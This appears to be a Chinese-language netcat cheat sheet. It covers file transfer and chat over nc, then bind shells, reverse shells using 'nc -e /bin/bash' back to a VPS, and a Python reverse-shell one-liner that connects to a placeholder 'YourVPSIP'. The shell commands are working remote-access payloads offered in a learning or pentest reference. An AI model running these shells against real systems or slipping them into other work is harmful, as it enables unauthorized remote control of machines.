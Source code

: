 ##### 文件传输

接收端：

```bash
nc -lp 9999 > 1.txt
```

发送端：

```bash
nc -vn 192.168.140.132 9999 < test.txt -q 1
```

##### 聊天

监听端：`nc -lp 9999`

连接端：`nc -vn 192.168.140.132 9999`

完成后即可开始。

##### 获取Shell

1. 正向Shell

   监听端口：

   ```bash
   nc -lvp 4444 -e /bin/bash[c:\windows\system32\cmd.exe]
   ```

   连接则使用：

   ```bash
   nc [ip] 4444
   ```

2. 反向Shell

   在VPS监听：`nc -lvp 9999`

   在目标机器连接：

   ```bash
   nc [ip] 9999 -e /bin/bash[c:\windows\system32\cmd.exe]
   ```

3. 目标主机没有NC时，可以考虑一下方法获取反向Shell：

   VPS监听：`nc -lvp 9999`

   1. Python 反弹Shell

      一句话：

      ```python
      python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YourVPSIP", 9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash", "-i"]);'
      ```

      ![image-20220421150457460](./image-20220421150457460.png)
